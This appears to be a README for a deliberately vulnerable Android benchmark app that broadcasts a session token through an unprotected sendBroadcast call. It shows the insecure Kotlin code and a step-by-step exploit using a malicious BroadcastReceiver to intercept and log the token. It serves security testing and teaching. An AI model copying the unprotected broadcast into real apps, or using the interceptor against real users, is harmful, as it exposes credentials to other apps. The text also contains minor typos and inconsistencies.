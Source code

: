 # oxo-android-ben46 Broadcast of Sensitive Information

### Description

This project demonstrates a critical security vulnerability in an Android application where sensitive information is broadcast without proper protection.  

The app simulates a simple login/authentication flow. When the user clicks the **"Authenticate"** button:
- A temporary session token is generated (randomized using `UUID.randomUUID()` to mimic realistic tokens).
- This token is then **broadcast** using `context.sendBroadcast()` with the action `com.example.token`.  

Since the broadcast is **unprotected**, any other app on the device can intercept the token.  

After "authentication," the button changes to **"Go to Dashboard"**, which redirects the user to a webpage. This masks the vulnerability, as the user only sees expected app behavior.

The vulnerability is located in the `MainActivity.kt` file.

**Relevant Code (MainActivity.kt):**
```kotlin
val token = "temp_token_${UUID.randomUUID()}"

// Broadcast token (insecure behavior)
val tokenIntent = Intent("com.example.token").apply {
    putExtra("TOKEN", token)
}
context.sendBroadcast(tokenIntent)
```

### Vulnerability Type and Category
-   **Type:** Unprotected broadcast of sensitive information
-   **Category:** Unprotected broadcast of sensitive information

### Difficulty
Easy

## Build and Test Instructions

### Build

This project uses Android Studio with Kotlin. To build the debug APK from the terminal:
```bash
# Navigate into the source code directory first
cd src/
./gradlew build
```
The APK will be located at app/build/outputs/apk/release/app-release-unsigned.apk.

### How to Exploit

1. **Install the Vulnerable App**: Install the `oxo-android-ben46.apk` onto an Android device or emulator.

```
adb install oxo-android-ben46.apk 
```

2. **Set Up the Malicious App**: Create a second, malicious app with a `BroadcastReceiver` that includes an intent filter for the vulnerable broadcast action (`com.example.token`).

In `AndroidManifest.xml`:
```
<receiver android:name=".TokenReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.example.token" />
    </intent-filter>
</receiver>
```

In the `TokenReceiver.kt`:

```
override fun onReceive(context: Context?, intent: Intent?) {
    if (intent?.action == "com.example.token") {
        val token = intent.getStringExtra("TOKEN")
        Log.d("VulnerableBroadcast", "Intercepted token: $token")
    }
}
```

3 **Install the Malicious App**: Install the malicious app on the same device.

```
abd install malicious-app.apk
```

4. **Trigger the Vulnerability**: Open the vulnerable app and click the "Open example.com" button.

5. **View the Exploit**: Use `adb logcat` to filter the logs for the malicious app's tag. You will see the intercepted token in the logs, confirming that the malicious app successfully captured the sensitive information from the broadcast.

```
adb logcat -s VulnerableBroadcast
```